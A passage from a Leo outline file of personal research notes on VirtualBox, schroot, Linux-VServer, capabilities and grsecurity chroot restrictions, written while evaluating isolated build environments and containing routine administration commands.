    debconf-set-selections vboxconf

NAT port forwarding
    VBoxManage setextradata "Guest" VBoxInternal/Devices/pcnet/0/LUN#0/Config/&lt;service&gt;/Protocol TCP
    VBoxManage setextradata "Guest" VBoxInternal/Devices/pcnet/0/LUN#0/Config/&lt;service&gt;/GuestPort 22
    VBoxManage setextradata "Guest" VBoxInternal/Devices/pcnet/0/LUN#0/Config/&lt;service&gt;/HostPort 2222

HIF (Host Interface Networking)
    setup a new network card (e.g., vbox0) on host, to which guests are connected

TAP is built-in support for virtual network devices
    VirtualBox must have access to /dev/net/tun

    permanent network interfaces to which guests can attach
        easier to set up
    or dynamic interface for guests when they are started and removed when stopped
        requires admin password when interfaces are created/removed


uses UML utilities to manipulate the TAP device
    you can use TAP instead of vbox interfaces

supports Internal networking
    vbox's must run as the same user

front-ends
    start machine with GUI stop from command line

virtualbox exposes all of its features in a clean COM/XPCOM API

7.2 vboxManage

exposes more features than the main GUI

toolkit design

list vms
    
startvm
    -type vrdp
        starts machine headless
            rdesktop -a 24 localhost
                two mouse pointers unless you install guest additions

controlvm # to pause or save

modifyvm # can't be used while vm is on or saved

7.3 VBoxSDL

minimal GUI to the VM
    controllable via VBoxManage

VBoxSDL -vm "ubuntu edgy"

7.4 VRDP

extended RDP (graphics and audio)

modifyvm &lt;vmname&gt; 
    -vrdp on
    -vrdpport -vrdpauthtype

VBoxVRDP -startvm &lt;uuid|name&gt;


8.17 VBoxManage getextradata/setextradata

9.3 custom external VRDP authentication library API

9.4 secure labeling with VBoxSDL

-securelabel -sec labelfnt /path/to/font -seclabelsize 14 ...

labeling is a bit tricky due to adjustment of non-standard resolutions

9.6 multiple monitors for guest

modifyvm &lt;vmname&gt; -monitor 3

specify which screen you want to conect to with @1, @2 in domain logon

9.9.2 access physical hard disks

supported as part of VMDK

VBoxManage internalcommands
    createrawvmdk
        -filename /path/to/file.vmdk
        -rawdisk /dev/sda5 [ -partitions ]
       
RESOURCE: http://forums.virtualbox.org/viewtopic.php?t=52

thread discussing how to mount VDI (fixed size only)

sudo mount -t ntfs-3g -o loop,\
uid=user,gid=group,umask=0007,fmask=0117,offset=\
0x$(hd -n 1000000 ~/.VirtualBox/VDI/image.vdi | \
grep "eb 52 90 4e 54 46 53" | cut -c 1-8) \
.VirtualBox/VDI/image.vdi ~/mnt/


VDI - Virtual Disk Image

RESOURCE: http://www.virtualbox.org/wiki/VirtualBox_architecture

virtualization hidden behind a shared library 

system is built with a modular architecture

Mozilla's XPCOM is used as the internal API

virtual machine is just another process

what the kernel module doesn't do
    doesn't mess around with the scheduler / process management

states that the VM can be in
    executing host ring-3 code/host ring-0 code    
    emulating guest code slowly (within ring-3 host VM process)
        guest code disables interrupts
        LIDT caused a trap that needs to be emulated
        real-mode code (BIOS code, operating system startup)
    running guest ring-3 natively
emulating guest

RESOURCE: http://www.innotek.de/index.php

government contractor

privately held and internally funded software company in Germany

founded in 1992
    sells OS/2 and supports OS/2 line of produts

involved with virtualization from the beginning

products
    hyperkernel for embedded system - used in military scenarios

partners
    IBM Global Services partner

    helped Microsoft develop several features of their virtualization products

    secunet
        co-developing security infrastructure for government use


    </t>
<t tx="zaril.20100923035316.11">IDEAS
    hack schroot to support VM chroots?
    hack schroot to support deck?
    just use LVM snapshot type schroot instead of deck?


SUMMARY 

dchroot is a variant of schroot (they come from the same source)
    schroot drop in replacement for dchroot that offers much more functionality

schroot supports arbitrary users with PAM authentication

schroot supports session managed chroot types
        
schroot.conf
    supported chroots type=
        plain
        directory
        file
            .tar .tar.gz .ar.bz2 .tgz .tbz .zip
        block-device
        lvm-snapshot
    
    root-users=user1,user2
        list of users allowed root access to the chroot
    
    run-setup-scripts=true/false
    
    session managed chroots?
    
    source chroot options
        automatically create a copy of themselves before use
        session managed
    
        supported chroot types
                file
            LVM snapshot chroots

USAGE SUMMARY
    delete sessions
        schroot -e --all-sessions

    chroot tarball has to have the chroot root as the first level
        tar -C jaunty/ -zcvf jaunty.tar.gz .

    example session
        SESSION_ID=$(schroot -b -c &lt;session-chroot&gt;)
        schroot -r -c $SESSION_ID
        schroot -e -c $SESSION_ID

        recover session
            schroot --recover-session -c $SESSION_ID

    if you modify the source of a chroot - the change is persistent
        the tarball seems to be repackaged

    if you don't use session management, the session is torn down after use
    
    /etc/schroot/setup.d
        how the session is setup
            mount binds the root's /home and /tmp   
            copies resolv.conf

    debug
       --debug=notice option

    query config options as seen by schroot
        schroot --config

        prettier version
            schroot -i

    gotchas
        session managed chroots need the setup scripts - otherwise it doesn't work

    # erase all sessions
    schroot -e --all-sessions
    
example of a chroot configuration
    [foo]
    type=file
    description=foo
    file=/usr/share/chroot/jaunty.tar.gz
    users=z
    root-users=z

Q: can we use a directory instead of a file for a session managed chroot?
A: no
    
RESOURCE: https://wiki.ubuntu.com/DebootstrapChroot
    sbuilder            tool for building Debian binary packages from Debian sources
        part of a suite of programs
            wanna-build
            build

        can work in chroots

        schroot
            can    

RESOURCE: schroot(1) man page
schroot supports arbitrary users with PAM authentication

a regular user can chroot into the chroot as root

RESOURCE: schroot.conf man page

RESOURCE: schroot-setup(5)
    describes schroot setup.d scripts
        sets up mounts, networking</t>
<t tx="zaril.20100923035316.12">after caching

create
        2 seconds (uncompressed)
        17 seconds (compressed)

extract
    6 seconds compressed
    4-6 seconds uncompressed</t>
<t tx="zaril.20100923035316.13">SUMMARY
    very mature project, under active development
        first public release 2001
    more efficient than virtualization
    very good documentation

    vulnerable to devs
        some devs shouldn't be allowed

Q: can we create non-persistent environments with vserver?
Q: can vserver be "escaped"?
Q: does chroot work inside the vserver?

RESOURCE: https://lists.linux-foundation.org/pipermail/containers/
    containers are under very active development

RESOURCE: http://forums.grsecurity.net/viewtopic.php?t=1801&amp;highlight=&amp;sid=a31a551220aac5586ddae62d55836973

report that grsecurity and vserver apply together

RESOURCE: http://en.wikipedia.org/wiki/Linux-VServer

all virtual servers share the same kernel

RESOURCE: http://www.howtoforge.com/linux_vserver_debian_etch

tools already exist for installing debian into a vserver

RESOURCE: http://linux-vserver.org/Welcome_to_Linux-VServer.org

vserver + grsec patches already exist

RESOURCE: http://linux-vserver.org/Paper

nice overview of existing Linux security mechanisms
    capabilities
    resource limits
    file attributes
    file attributes
        e.g., SECRM (secure removal)

RESOURCE: http://linux-vserver.org/Frequently_Asked_Questions

vunify - hardlink on steroids
    immutable, but removable

device nodes limited in the guest


POSIX capabilities exist per process?

inheritable (I), permitted (P), effective(E)

RESOURCE: http://linux-vserver.org/Overview

other appraoches
    emulation
    paravirtualization
    native virtualization
    operating system-leve virtualization
</t>
<t tx="zaril.20100923035316.14">Q: can block devices be accessed without capabilities?

SUMMARY:
    POSIX capabilities exist per process?    
    inheritable (I), permitted (P), effective(E)

    see the capabilities of a process
        cat /proc/&lt;pid&gt;/status
            CapInh
            CapPrm
            CapEff

    file capabilities developed in -mm?

    vserver being integrated into mainline kernel
        "containers" / "namespaces"
        working together with openvz

    https://lists.linux-foundation.org/pipermail/containers/2010-September/007060.html
    
RESOURCE: http://www.linuxselfhelp.com/howtos/Secure-Programs/Secure-Programs-HOWTO-3.html

bounding set of capabilties
    which capabilities available globally

RESOURCE: capabilities(7) man page

list of all Linux capabilities

capset(2) a process may manipulate its own capability sets

libcap user library for manipulating capabilities
    comes with /sbin/
        sucap
        setpcaps
        getpcaps
        execcap
            wrapper used to limit Inheritable capabilities of a program to be executed
            IDEA: use execcap to drop privileges?

RESOURCE: http://ftp.kernel.org/pub/linux/libs/security/linux-privs/kernel-2.4/capfaq-0.2.txt

execcap 'cap_sys_admin=eip' update
    run update with only cap_sys_admin privileges

sucap updated updated execcap 'cap_sys_admin=eip' update
    start a process with limited capabilities under non-root uid

RESOURCE: http://www.linuxjournal.com/article/5737

taking advantage of linux capabilities

GOTCHA: execcap not working on my system, try in vmware?
    no relation

RESOURCE: http://lkml.org/lkml/2010/4/17/416

file capabilities developed in -mm

RESOURCE: http://linux-vserver.org/Mainline_Kernel_Virtualization

RESOURCE: http://lwn.net/Articles/179361/
    containers and lightweight virtualization


</t>
<t tx="zaril.20100923035316.15">SUMMARY
    we can't mknod without preventing some packages which need to create device nodes
        this is also a problem with vserver

    which packages have files in /dev?
        base-files
        udev

    chroot is unsafe with all of these devices
    
    sub-chroots actually do work
        what doesn't work is chrooting OUT of the chroot

    chroot_caps=1 prevents raw access to harddrive

pros
    decreased memory usage
    less cpu overhead
    host access to filesystems
    we can delete the dangerous devices just to make sure
    we can leverage deck to provide sessions
        thats what I designed it for
    we can apply grsecurity policies to the inside of the chroot

cons
    integration problems are likely to be painful
    not everything works inside the limited chroot (e.g., debootstrap)
    if we turn off grsec, we become vulnerable to jail escape
        security is thin?

        OTOH, its not a MAC feature, its a sysctl option

    I'm not sure I can trust the chroot_caps 
        its not documented that it prevents access to the harddrive
            
    hardware virtualization will run unchanged
        security compartmentalization will remain even with MAC turned off
    

Q: is the grsec chroot secure enough for building/fabrication?
A: we won't be able to debootstrap inside it
    but we should be able to build, and fabricate inside it
        set up mounts out of the chroots
            maybe turn on chroot mounts and give that capability to specific chrooted programs that need it?

Q: is a capability required for access to hda?
A:
    no, chroot_caps seems to be a special case

IDEAS
    apply policy to chrooted files?
        we wouldn't be able to clean state  
            yes we would, we just have to apply the policy to the parent directory

E: try debootstrapping with chroot restrictions
R: it failed, because it couldn't mount proc

    GOTCHA: mknod worked!
        thats because debootstrap created the /dev files BEFORE chrooting


DISCOVERY: I can't access hda in the chroot, why not?


what can't we do when they are on?
    (sub-chroot?)

would we need to harden the chroot environment?
    (e.g., delete dangerous devices)

can chroot security be applied dynamically?
    (I.e., like dropping privileges)
    
    would we need this to allow us to prevent chroot poisoning
        (I.e., non-persistent chroot)

    or could we just use deck to provide non-persistence   

if not how would we setup the build chroot?
    set it up and then activate the chroot restrictions?

IDEAS
    run experiments with grsec chroot restrictions
        is breakout prevented?

RESOURCE: kernel sec options-&gt;grsec-&gt;filesystem protections-&gt;chroot jail restrictions
    deny mounts

Q: what are the chroot hardening mechanisms?
A:
    chroot_deny_mount
    double-chroot
        chroot_deny_chroot
        chroot_deny_pivot
    enforce chdir /
        chroot_enforce_chdir
    disable suid chmod
        chroot_deny_chmod
    deny fchdir out of chroot
        chroot_deny_fchdir
    deny mknod
        chroot_deny_mknod
    attach to shm out of jail
        chroot_deny_shmat
    deny asccess to abstract AF_UNIX sockets
        chroot_deny_unix
    protect outside processes (kill, signal, fcntl, ptrace, capget, setpgid, getsid)
        chroot_findtask
    change priorities
        chroot_restrict_nice
    deny sysctl writes
        chroot_deny_sysctl

    deny dangerous capabilities
        lower's capabilities to prevent
            module insertion, raw i/o, system and net admin, rebooting system


Q: what capability is disabled by chroot_caps option that prevents access to /dev/hda?
    is it restricted by path?

    E: try to disable all capabilities
    subject /usr/bin/grtest o
        / rxi    
        -CAP_ALL
    R: we can still read /dev/hda

A: no capability is required to read /dev/hda

Q: is chroot_caps based on an implicit path-based acl? 
A: no, we can't read from /root/hda either

E: try turning off the option with sysctl inside the chroot
R: operation not permitted

IDEA: we could restrict privileges in the chroot using an inheritable policy


</t>
</tnodes>
</leo_file>
